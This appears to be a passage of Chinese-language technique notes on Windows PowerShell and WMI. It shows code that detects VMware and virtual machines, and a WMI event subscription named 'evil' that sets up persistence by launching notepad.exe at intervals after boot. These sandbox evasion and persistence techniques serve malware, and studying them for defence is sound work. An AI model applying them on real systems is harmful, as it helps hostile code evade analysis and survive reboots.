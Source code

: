 ```
$VMwareDetected = $False
$VMAdapter = Get-WmiObject Win32_NetworkAdapter -Filter 'Manufacturer LIKE
"%VMware%" OR Name LIKE "%VMware%"'
$VMBios = Get-WmiObject Win32_BIOS -Filter 'SerialNumber LIKE "%VMware%"'
$VMToolsRunning = Get-WmiObject Win32_Process -Filter 'Name="vmtoolsd.exe"'
if ($VMAdapter -or $VMBios -or $VMToolsRunning) 
{ 
	$VMwareDetected = $True 
	"in vm"
} 
else
{
	"not in vm"
}
```

```
$VMDetected = $False
$Arguments = @{
 Class = 'Win32_ComputerSystem'
 Filter = 'NumberOfLogicalProcessors < 2 AND TotalPhysicalMemory < 2147483648'
}
if (Get-WmiObject @Arguments) { 
    $VMDetected = $True
    "In vm"
 } 
 else{
 	"Not in vm"
 }
```

```
wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_ComputerSystem GET NumberOfLogicalProcessors,TotalPhysicalMemory /FORMAT:list
```



## 2. 持久化

开机超过180s，每5s启动一次notepad.exe

```
//管理员权限
$wmiParams = @{
    Computername = $env:COMPUTERNAME
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}
$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "select * from __InstanceModificationEvent within 5 where targetInstance isa 'Win32_PerfFormattedData_PerfOS_System' and targetInstance.SystemUpTime >= 180 "
}
$filterResult = Set-WmiInstance @wmiParams


$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    CommandLineTemplate = 'C:\Windows\System32\notepad.exe'
}
$consumerResult = Set-WmiInstance @wmiParams
```